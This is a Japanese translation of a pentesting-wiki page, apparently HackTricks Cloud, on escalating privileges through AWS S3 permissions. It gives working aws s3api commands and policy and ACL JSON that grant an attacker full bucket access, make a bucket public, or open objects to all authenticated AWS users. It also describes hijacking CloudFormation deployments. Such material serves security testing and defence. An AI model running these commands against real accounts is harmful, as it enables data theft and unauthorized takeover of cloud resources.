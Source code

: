 # AWS - S3特権昇格

<details>

<summary><strong>HackTricksをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

これらの権限を持つ攻撃者は、興味深いバケット上でリソースを乗っ取り、特権を昇格させる可能性があります。

たとえば、"cf-templates-nohnwfax6a6i-us-east-1"という名前の**クラウドフォーメーションバケット**に対してこれらの権限を持つ攻撃者は、デプロイを乗っ取ることができます。アクセスは以下のポリシーで与えることができます：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
そして、ハイジャックは、テンプレートがバケットにアップロードされてからテンプレートが展開されるまでの**短い時間枠**があるため可能です。攻撃者は、自分のアカウントで**バケット通知が送信されたときにトリガーされる****Lambda関数**を作成し、その**バケット**の**コンテンツ**を**ハイジャック**することができます。

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacuモジュール[`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)を使用すると、この攻撃を自動化することができます。\
詳細については、元の研究を参照してください：[https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`、`s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

これらは、S3にオブジェクトを**取得およびアップロードするための権限**です。AWS内外のさまざまなサービスは、S3ストレージを使用して**設定ファイル**を保存します。\
これらに**読み取りアクセス**がある攻撃者は、それらに**機密情報**を見つけるかもしれません。\
これらに**書き込みアクセス**がある攻撃者は、データを**改ざんしてサービスを悪用し、特権をエスカレーションしようとする**ことができます。\
以下にいくつかの例を示します：

* EC2インスタンスがS3バケットに**ユーザーデータを保存している**場合、攻撃者はそれを変更して**EC2インスタンス内で任意のコードを実行**することができます。

### `s3:PutBucketPolicy`

この権限を持つ攻撃者（**同じアカウントである必要があります**。そうでない場合、エラー`The specified method is not allowed will trigger`が発生します）は、バケットに対してより多くの権限を自分自身に付与することができ、バケットの読み取り、書き込み、変更、削除、公開が可能になります。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

これらの権限を悪用することで、攻撃者は特定のバケットに対して**より多くのアクセス権限を与える**ことができます。\
攻撃者は同じアカウントである必要はありません。さらに、書き込みアクセス権限も必要ありません。
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

これらの権限を悪用することで、攻撃者はバケット内の特定のオブジェクトに対してより多くのアクセス権を付与することができます。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

これらの権限を持つ攻撃者は、特定のオブジェクトバージョンに Acl を設定できることが期待されます。
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社の広告をハックトリックで見たい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
